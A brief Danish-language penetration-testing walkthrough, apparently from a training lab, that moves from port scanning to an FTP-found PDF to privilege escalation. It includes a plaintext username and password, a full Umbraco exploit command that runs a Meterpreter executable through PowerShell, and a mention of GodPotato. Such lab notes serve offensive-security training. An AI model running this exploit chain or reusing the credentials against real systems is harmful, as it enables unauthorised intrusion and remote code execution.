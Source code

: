 nmap scan med -p-
find filezilla på port 14020
connect, find pdf, åben og find creds (mark:OathDeeplyReprieve91)

find exploit mod umbraco:
python3 49488.py -u mark@relia.com -p OathDeeplyReprieve91 -i http://web02.relia.com:14080 -c powershell.exe -a '-noprofile -command C:\\windows\\temp\\met.exe'

i dokument står der også at man skal bruge FQDN (web02.relia.com) så det sættes i /etc/hosts.

brug godpotato til privesc